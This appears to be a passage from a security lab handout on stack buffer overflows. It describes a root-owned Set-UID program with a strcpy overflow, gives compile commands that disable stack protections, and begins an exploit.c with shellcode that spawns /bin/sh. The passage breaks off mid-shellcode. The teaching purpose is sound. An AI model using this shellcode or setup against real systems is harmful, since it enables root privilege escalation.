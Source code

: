 ```
```

The above program has a buffer overflow vulnerability. It first reads an input from a file calledbadfile,
and then passes this input to another buffer in the functionbof(). The original input can have a maximum
length of 517 bytes, but the buffer inbof()is onlyBUFSIZEbytes long, which is less than 517. Be-
causestrcpy()does not check boundaries, buffer overflow will occur. Since this program is a root-owned
Set-UIDprogram, if a normal user can exploit this buffer overflow vulnerability, the user might be able
to get a root shell. It should be noted that the program gets its input from a file calledbadfile. This
file is under users’ control. Now, our objective is to create the contents forbadfile, such that when the
vulnerable program copies the contents into its buffer, a root shell can be spawned.

Compilation. To compile the above vulnerable program, do not forget to turn off the StackGuard and the
non-executable stack protections using the-fno-stack-protectorand"-z execstack"options.
After the compilation, we need to make the program a root-ownedSet-UIDprogram. We can achieve this
by first change the ownership of the program toroot(Line¿), and then change the permission to 4755 to
enable theSet-UIDbit (Line¡). It should be noted that changing ownership must be done before turning
on theSet-UIDbit, because ownership change will cause theSet-UIDbit to be turned off.

```
// Note: N should be replaced by the value set by the instructor
$ gcc -DBUF_SIZE=N -o stack -z execstack -fno-stack-protector stack.c
$ sudo chown root stack ¿
$ sudo chmod 4755 stack ¡
```

For instructors. To prevent students from using the solutions from the past (or from those posted on the
Internet), instructors can change the value forBUFSIZEby requiring students to compile the server code
using a differentBUFSIZEvalue. Without the-DBUFSIZEoption,BUFSIZEis set to the default value
24 (defined in the program). When this value changes, the layout of the stack will change, and the solution
will be different.

### 2.4 Task 2: Exploiting the Vulnerability

We provide you with a partially completed exploit code called"exploit.c". The goal of this code is to
construct contents forbadfile. In this code, the shellcode is given to you. You need to develop the rest.

```
/* exploit.c */

/* A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>


char shellcode[] =
"\x31\xc0" /*Line 1: xorl %eax,%eax */
"\x50" /*Line 2: pushl %eax */
"\x68""//sh" /*Line 3: pushl $0x68732f2f */
"\x68""/bin" /*Line 4: pushl $0x6e69622f */
"\x89\xe3" /*Line 5: movl %esp,%ebx */
"\x50" /*Line 6: pushl %eax */
```